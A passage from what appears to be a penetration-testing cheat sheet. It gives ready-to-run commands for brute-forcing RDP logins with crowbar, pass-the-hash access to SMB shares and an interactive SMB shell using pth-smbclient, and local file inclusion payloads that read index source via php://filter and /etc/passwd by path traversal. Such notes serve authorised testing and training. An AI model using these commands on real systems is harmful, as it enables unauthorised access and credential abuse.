 ### Crowbar

`crowbar -b rdp <-u/-U user/user_wordlist> -c/-C <password/password_wordlist> -s <target_ip>/32 -v`

```shell
crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v
```

## Pass the hash

### SMB Pass the hash

#### Tool

[`pth-toolkit`](https://github.com/byt3bl33d3r/pth-toolkit)

### Listing shared folders

`sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3 -L <target_ip> \\\\<target_ip>\\ <hash>`

```shell
sudo pth-smbclient --user=user --pw-nt-hash -m smb3  -L 192.168.0.24 \\\\192.168.0.24\\ ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

### Interactive smb shell

`sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3 \\\\<target_ip>\\shared_folder <hash>`

```shell
sudo pth-smbclient --user=user --pw-nt-hash -m smb3 \\\\192.168.0.24\\folder ljahdçjkhadkahdkjahsdlkjahsdlkhadklad
```

## Web Application

### Web Remote code

### LFI (Local File Inclusion)

Situation

```shell
http://<target>/index.php?parameter=value
```

#### How to Test

```shell
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
```

```shell
http://<target>/script.php?page=../../../../../../../../etc/passwd

```
